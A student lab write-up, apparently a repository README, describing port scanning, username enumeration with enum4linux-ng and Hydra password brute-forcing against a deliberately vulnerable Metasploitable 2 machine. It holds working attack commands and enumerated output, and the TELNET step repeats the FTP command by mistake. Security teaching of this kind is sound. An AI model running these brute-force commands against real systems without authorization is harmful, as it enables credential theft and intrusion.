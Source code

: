 # Lab 1: Cryptographic Attacks: Brute Force and Traffic Analysis on Network Protocols

## 🎯 Objective

1. Explore **vulnerabilities** in common network protocols (FTP, TELNET, SSH & HTTP).
3. Perform brute force attacks to recover passwords.
4. Use recovered credentials to sniff network traffic.
5. Analyze the security posture of each protocol.
6. Propose effective mitigation strategies.
---

## 🛠️ Requirement

| Tool               | Purpose                        |
|--------------------|--------------------------------|
| Kali Linux         | Attacker machine               |
| Metasploitable 2   | Target/vulnerable machine      |
| Wordlist           | Password brute-forcing         |
| Nmap               | Port scanning                  |
| Hydra              | Brute force tool               |
| Burp Suite         | HTTP interception & testing    |
| enum4linux-ng      |                                |
| Python3            |                                |

---

## 🔥 Pre-Heat
1. Performed a port scan using Nmap:
   ```
   nmap -sV -p 21,23,22,80 [target-ip]
   ```
   | Option              | Meaning                                                                                                         |
   |---------------------|-----------------------------------------------------------------------------------------------------------------|
   | `nmap`              | Runs the Nmap network scanner tool.                                                                               |
   | `-sV`               | **Service/version detection** — Nmap will try to determine what software and version is running on each open port.    |
   | `-p 21,23,22,80`    | Tells Nmap to scan **only** these specific ports: <br>• `21` = FTP <br>• `23` = Telnet <br>• `22` = SSH <br>• `80` = HTTP    |
   | `[target-ip]`       | Replace with the IP address of the target/vulnerable machine you are scanning.                                     |

   - Result:
     ![image](assets/nmap-result.png)
     > Here I only scan FTP(21), TELNET(23), SSH(22) and HTTP(80) port.

2. Create Python Virtual Enviroment:
   ```
   python3 -m venv crypto-Venv
   source crypto-Venv/bin/activate
   ```
3. Install enum4linux-ng:
   ```
      git clone https://github.com/cddmp/enum4linux-ng.git
      cd enum4linux-ng
      python3 -m pip install -r requirements.txt
   ```
---

## 🔍 Lab Tasks

### Task 1: Enumerate the Vulnerable VM to Discover Usernames

#### ✅ Objective:
- Identify potential usernames for brute force attacks.
---

#### 🚶‍♂️‍➡️ The Process:

1. Enumurate Username Using Enum4linux-ng:

   You may run this script like normal:
   ```
   python3 enum4linux-ng.py -A [target-ip]
   ```
   
   But my version will grep username only and append to username.txt. Useful for brute force tasks: 
   ```
   python3 enum4linux-ng.py -A [target-ip] | grep "username:" | sed 's/username: //' >> username.txt
   ```
   > Make sure run the script in enum4linux-ng directory   

   - Result:
      ```
      ┌──(crypto-Venv)─(adamriezqie㉿NWS23010043)-[~/enum4linux-ng]
      └─$ python3 enum4linux-ng.py -A 192.168.109.131 | grep "username:" | sed 's/username: //' >> username.txt

      ┌──(crypto-Venv)─(adamriezqie㉿NWS23010043)-[~/enum4linux-ng]
      └─$ cat username.txt 
        root
        daemon
        bin
        sys
        sync
        games
        man
        lp
        mail
        news
        uucp
        proxy
        www-data
        backup
        list
        irc
        gnats
        libuuid
        dhcp
        syslog
        klog
        sshd
        bind
        postfix
        ftp
        postgres
        mysql
        tomcat55
        distccd
        telnetd
        proftpd
        msfadmin
        user
        service
        nobody
      ```
      > Here I execute the script and filter the output to extract lines containing username:. Then, I strip the username: prefix and save the resulting usernames to a file named list.username.txt.
      
      **Potential usernames for brute force attacks:**
     
      ```
      ┌──(crypto-Venv)─(adamriezqie㉿NWS23010043)-[~/enum4linux-ng]
      └─$ cat potential-username.txt 
      root
      ftp
      postgres
      mysql
      tomcat55
      proftpd
      msfadmin
      user
      ```
      > Here, I narrowed down the list to potential usernames for brute force attacks. 

---

### Task 2: Perform Brute Force Attacks
   - For brute force attaks we need a two things:
        - potential-username.txt
        - password.txt

   - but how to get the password? There is many list online out there, but for this task we utilized ChatGPT for generate potential password based on the username:
        - [Password.txt](wordlist/password.txt)

   ---

#### 2.1: FTP, TELNET, and SSH

##### FTP:

For do brute force attack, I use Hydra:
   ```
      hydra -L potential-username.txt -P password.txt ftp://[target-ip]
   ```

   - Results:
     ![Image](assets/Hydra-bruteforce-FTP-result.png)

   ---
   
##### TELNET:

For do brute force attack, I use Hydra:
   ```
      hydra -L potential-username.txt -P password.txt ftp://[target-ip]
   ```

   - Results:
     ![Image](assets/Hydra-bruteforce-telnet-result.png)

   ---
   
##### SSH:

   ---
     
